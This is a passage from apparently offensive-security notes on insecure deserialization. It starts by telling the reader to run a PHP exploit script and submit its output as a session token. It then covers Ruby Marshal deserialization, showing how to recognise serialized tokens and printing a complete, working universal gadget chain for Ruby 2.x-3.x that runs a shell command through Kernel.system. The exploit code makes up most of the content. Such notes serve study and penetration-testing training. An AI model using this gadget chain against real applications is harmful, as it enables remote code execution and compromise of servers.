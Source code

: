 Run it via `php` command and insert the new value as the session token and submit:

```bash
php8.2 exploit.php
```
# Ruby Deserialization with Gadget Chains 

There may not be a tool for exploiting known gadget chains in the framework. If not, try looking online to see if there are any documented exploits that can be adapted manually. Tweaking code may require basic understanding of the language and framework, and you may need to sometimes serialize the object yourself.

For example, decoding an access token may reveal a Ruby serialized object via the first two bytes (\\x04\\x08). Try searching online for "Ruby serialization gadget chain exploit". A famous exploit is the [following](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) in Ruby 2.x-3.x.

The blog details a script to trigger a call to execute the `id` command:

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```
